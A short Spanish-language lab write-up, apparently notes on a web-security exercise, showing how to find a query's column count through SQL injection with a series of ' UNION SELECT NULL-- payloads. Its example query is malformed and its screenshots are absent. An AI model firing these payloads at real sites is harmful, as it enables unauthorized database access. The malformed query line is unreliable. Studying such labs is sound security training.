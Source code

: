 ## Objetivo:

![[Pasted image 20240622150116.png]]

## Solución:

Seleccionamos un filtro de categoría

![[Pasted image 20240622150251.png]]

Suponiendo que la query de categoria esta implementada de la siguiente manera
```
SELECT * FROM categories FROM category 'prueba';
```

Entonces haremos pruebas inyectando lo siguiente
```
' UNION SELECT NULL--
' UNION SELECT NULL, NULL--
' UNION SELECT NULL, NULL, NULL--
```

Y asi de esta manera basado den el error de "Internal Server Error" podremos saber cual query de esas es completamente valida y asi detectamos el numero de columnas


![[Pasted image 20240622151149.png]]


![[Pasted image 20240622151022.png]]
